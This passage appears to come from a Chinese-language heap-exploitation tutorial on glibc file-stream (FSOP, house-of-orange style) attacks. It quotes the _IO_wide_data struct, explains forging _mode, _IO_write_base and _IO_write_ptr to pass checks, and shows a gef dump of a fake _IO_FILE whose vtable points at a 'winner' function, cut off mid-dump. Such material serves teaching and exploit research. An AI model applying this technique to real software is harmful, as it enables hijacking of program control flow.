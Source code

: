 ```c
// libio/libio.h

  struct _IO_wide_data *_wide_data;

/* Extra data for wide character streams.  */
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;	/* Current read pointer */
  wchar_t *_IO_read_end;	/* End of get area. */
  wchar_t *_IO_read_base;	/* Start of putback+get area. */
  wchar_t *_IO_write_base;	/* Start of put area. */
  wchar_t *_IO_write_ptr;	/* Current put pointer. */
  wchar_t *_IO_write_end;	/* End of put area. */
  wchar_t *_IO_buf_base;	/* Start of reserve area. */
  wchar_t *_IO_buf_end;		/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  wchar_t *_IO_save_base;	/* Pointer to start of non-current get area. */
  wchar_t *_IO_backup_base;	/* Pointer to first valid character of
				   backup area */
  wchar_t *_IO_save_end;	/* Pointer to end of non-current get area. */

  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;

  wchar_t _shortbuf[1];

  const struct _IO_jump_t *_wide_vtable;
};
```

所以这里我们设置 `fp->_mode = 0`，`fp->_IO_write_base = (char *) 2` 和 `fp->_IO_write_ptr = (char *) 3`，从而绕过检查。

然后，就是修改 `_IO_jump_t`，将其指向 winner：

```text
gef➤  x/30gx p1-0x10+0x400
0x602400:	0x0068732f6e69622f	0x0000000000000061  <-- old top
0x602410:	0x00007ffff7dd1b78	0x00007ffff7dd2510      <-- bk points to io_list_all-0x10
0x602420:	0x0000000000000002	0x0000000000000003      <-- _IO_write_base, _IO_write_ptr
0x602430:	0x0000000000000000	0x0000000000000000
0x602440:	0x0000000000000000	0x0000000000000000
0x602450:	0x0000000000000000	0x0000000000000000
0x602460:	0x0000000000000000	0x0000000000000000
0x602470:	0x0000000000000000	0x00000000004006d3      <-- winner
0x602480:	0x0000000000000000	0x0000000000000000
0x602490:	0x0000000000000000	0x0000000000000000
0x6024a0:	0x0000000000000000	0x0000000000000000
0x6024b0:	0x0000000000000000	0x0000000000000000
0x6024c0:	0x0000000000000000	0x0000000000000000
0x6024d0:	0x0000000000000000	0x0000000000602460      <-- vtable
0x6024e0:	0x0000000000000000	0x0000000000000000
gef➤  p *((struct _IO_FILE_plus *) 0x602400)
$1 = {
  file = {
    _flags = 0x6e69622f,
    _IO_read_ptr = 0x61 <error: Cannot access memory at address 0x61>,
    _IO_read_end = 0x7ffff7dd1b78 <main_arena+88> "\020@b",
    _IO_read_base = 0x7ffff7dd2510 "",
    _IO_write_base = 0x2 <error: Cannot access memory at address 0x2>,
    _IO_write_ptr = 0x3 <error: Cannot access memory at address 0x3>,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
```